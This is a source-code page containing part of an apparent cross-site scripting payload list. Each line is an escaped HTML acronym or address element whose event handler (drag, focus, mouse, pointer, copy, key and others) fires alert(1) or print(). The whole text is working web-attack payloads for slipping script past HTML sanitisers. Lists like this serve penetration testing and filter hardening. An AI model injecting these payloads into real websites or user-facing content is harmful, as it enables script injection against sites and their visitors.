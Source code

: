 &lt;acronym draggable="true" ondragend="alert(1)"&gt;test&lt;/acronym&gt;
&lt;acronym draggable="true" ondragenter="alert(1)"&gt;test&lt;/acronym&gt;
&lt;acronym draggable="true" ondragleave="alert(1)"&gt;test&lt;/acronym&gt;
&lt;acronym draggable="true" ondragstart="alert(1)"&gt;test&lt;/acronym&gt;
&lt;acronym id=x tabindex=1 onactivate=alert(1)&gt;&lt;/acronym&gt;
&lt;acronym id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/acronym&gt;
&lt;acronym id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/acronym&gt;&lt;input autofocus&gt;
&lt;acronym id=x tabindex=1 ondeactivate=print()&gt;&lt;/acronym&gt;&lt;input id=y autofocus&gt;
&lt;acronym id=x tabindex=1 onfocus=alert(1)&gt;&lt;/acronym&gt;
&lt;acronym id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/acronym&gt;
&lt;acronym onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;acronym onbeforecopy="alert(1)" contenteditable&gt;test&lt;/acronym&gt;
&lt;acronym onbeforecut="alert(1)" contenteditable&gt;test&lt;/acronym&gt;
&lt;acronym onbeforepaste="alert(1)" contenteditable&gt;test&lt;/acronym&gt;
&lt;acronym onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;acronym onblur=alert(1) tabindex=1 id=x&gt;&lt;/acronym&gt;&lt;input autofocus&gt;
&lt;acronym onclick="alert(1)"&gt;test&lt;/acronym&gt;
&lt;acronym oncontextmenu="alert(1)"&gt;test&lt;/acronym&gt;
&lt;acronym oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;acronym oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;acronym ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/acronym&gt;
&lt;acronym onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/acronym&gt;&lt;input autofocus&gt;
&lt;acronym onkeydown="alert(1)" contenteditable&gt;test&lt;/acronym&gt;
&lt;acronym onkeypress="alert(1)" contenteditable&gt;test&lt;/acronym&gt;
&lt;acronym onkeyup="alert(1)" contenteditable&gt;test&lt;/acronym&gt;
&lt;acronym onmousedown="alert(1)"&gt;test&lt;/acronym&gt;
&lt;acronym onmouseenter="alert(1)"&gt;test&lt;/acronym&gt;
&lt;acronym onmouseleave="alert(1)"&gt;test&lt;/acronym&gt;
&lt;acronym onmousemove="alert(1)"&gt;test&lt;/acronym&gt;
&lt;acronym onmouseout="alert(1)"&gt;test&lt;/acronym&gt;
&lt;acronym onmouseover="alert(1)"&gt;test&lt;/acronym&gt;
&lt;acronym onmouseup="alert(1)"&gt;test&lt;/acronym&gt;
&lt;acronym onmousewheel=alert(1)&gt;requires scrolling
&lt;acronym onpaste="alert(1)" contenteditable&gt;test&lt;/acronym&gt;
&lt;acronym onpointerdown=alert(1)&gt;XSS&lt;/acronym&gt;
&lt;acronym onpointerenter=alert(1)&gt;XSS&lt;/acronym&gt;
&lt;acronym onpointerleave=alert(1)&gt;XSS&lt;/acronym&gt;
&lt;acronym onpointermove=alert(1)&gt;XSS&lt;/acronym&gt;
&lt;acronym onpointerout=alert(1)&gt;XSS&lt;/acronym&gt;
&lt;acronym onpointerover=alert(1)&gt;XSS&lt;/acronym&gt;
&lt;acronym onpointerrawupdate=alert(1)&gt;XSS&lt;/acronym&gt;
&lt;acronym onpointerup=alert(1)&gt;XSS&lt;/acronym&gt;
&lt;address draggable="true" ondrag="alert(1)"&gt;test&lt;/address&gt;
&lt;address draggable="true" ondragend="alert(1)"&gt;test&lt;/address&gt;
&lt;address draggable="true" ondragenter="alert(1)"&gt;test&lt;/address&gt;
&lt;address draggable="true" ondragleave="alert(1)"&gt;test&lt;/address&gt;
&lt;address draggable="true" ondragstart="alert(1)"&gt;test&lt;/address&gt;
&lt;address id=x tabindex=1 onactivate=alert(1)&gt;&lt;/address&gt;
&lt;address id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/address&gt;
&lt;address id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/address&gt;&lt;input autofocus&gt;
&lt;address id=x tabindex=1 ondeactivate=print()&gt;&lt;/address&gt;&lt;input id=y autofocus&gt;
&lt;address id=x tabindex=1 onfocus=alert(1)&gt;&lt;/address&gt;
&lt;address id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/address&gt;
&lt;address onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;address onbeforecopy="alert(1)" contenteditable&gt;test&lt;/address&gt;
&lt;address onbeforecut="alert(1)" contenteditable&gt;test&lt;/address&gt;
&lt;address onbeforepaste="alert(1)" contenteditable&gt;test&lt;/address&gt;
&lt;address onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;address onblur=alert(1) tabindex=1 id=x&gt;&lt;/address&gt;&lt;input autofocus&gt;
&lt;address onclick="alert(1)"&gt;test&lt;/address&gt;
&lt;address oncontextmenu="alert(1)"&gt;test&lt;/address&gt;
&lt;address oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;address oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;address ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/address&gt;